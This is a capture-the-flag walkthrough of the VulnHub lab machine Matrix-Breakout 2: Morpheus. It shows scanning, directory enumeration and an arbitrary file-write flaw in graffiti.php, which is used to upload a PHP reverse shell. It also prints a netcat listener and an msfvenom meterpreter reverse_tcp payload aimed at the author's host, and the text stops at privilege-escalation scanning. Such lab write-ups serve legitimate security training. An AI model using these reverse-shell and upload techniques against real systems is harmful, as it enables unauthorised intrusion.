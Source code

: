 # Matrix-Breakout: 2 Morpheus Writeup

![banner image](screenshots/banner.png)

### Description:This is the second in the Matrix-Breakout series, subtitled Morpheus:1. It’s themed as a throwback to the first Matrix movie. You play Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.

### [download machine](https://vulnhub.com/entry/matrix-breakout-2-morpheus,757/)

### Phase 1: Reconnaissance
Getting the IP Address of the Target machine I used Netdiscover tool and got the ip address → 192.168.161.131

![discover image](screenshots/discover.png)

### Phase 2: Network Scanning

```bash
nmap -sV 192.168.161.131
```

![nmap scan](screenshots/nmap.png)

Here port 80 http is open, lets open it in browser and see what it shows

![webpage](screenshots/webpage.png)

Following is the webpage that is present on target machine, and nothing interesting in source and nothing in cookies and localstorge

Now I will use Gobuster to get the endpoints/dirs for this webapp that are hidden

```bash
gobuster dir -u http://192.168.161.131/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt,.html
```

![gobuster enum](screenshots/gobuster.png)

So I got the following results:
/robots.txt
/graffiti.txt
/graffiti.php

Lets visit robots.txt,
Got this LOL -> There's no white rabbit here. Keep searching!

-> Let try graffiti.txt
It is just a text file nothing special

Lets try graffiti.php here we got a web page with a input box and also we can do xss attact from this

![homepage](screenshots/homepage.png)

Now let's analyse this request in Burpsuite to get the path for the file here's the data variables that are taking data

![burpsuite 1](screenshots/burp1.png)

Now when I try changing the file extension to see whether new file is getting saved or not, it is saved and message is written into the file and file gets stored on the server, now let’s try to get the source code for the graffiti.php file to know the backend working

![code](screenshots/code.png)

Here I got the source code of the graffiti.php


```php

$file="graffiti.txt";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
if (isset($_POST['file'])) {
$file=$_POST['file'];
}
if (isset($_POST['message'])) {
$handle = fopen($file, 'a+') or die('Cannot open file: ' . $file);
fwrite($handle, $_POST['message']);
fwrite($handle, "\n");
fclose($file);
}
}

// Display file
$handle = fopen($file,"r");
while (!feof($handle)) {
echo fgets($handle);
echo "
\n";
}
fclose($handle);
?>

```

Here it is just getting the message from the input box and writing its value in the graffiti.txt file.

Now I will try to upload a php reverse shell File

![burpsuite reverse shell](screenshots/burp2.png)

The file got uploaded successfully, now lets try to get the reverse shell, here I am using netcat to get the connection from the target machine to my kali machine


```bash
nc -nlvp 4545
```

![access granted](screenshots/acc1.png)

Now I have reverse shell and I got the access of the user www-data

### Phase 3: Exploitation
![flag 1](screenshots/flag1.png)

We got our first flag in FLAG.txt, and also hints for the user cypher lets see we get its password

I don’t have access to /etc/shadow nor /etc/passwd, lets use metasploit to get the exploits that can be used to exploit this machine

For this I am generating a backdoor using msfvenom and uploading it /tmp of target machine


```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.161.128 LPORT=6565 -f elf -o escalate.elf
```

![upload escalte file](screenshots/esc.png)

I used wget to get the file from my kali to the target machine and then got the meterpreter session in metasploit

![muti handler](screenshots/multi.png)

Now I have make that session to run in background, and now I will use search suggester to do a exploit scan

![explot scan](screenshots/exploitScan.png)

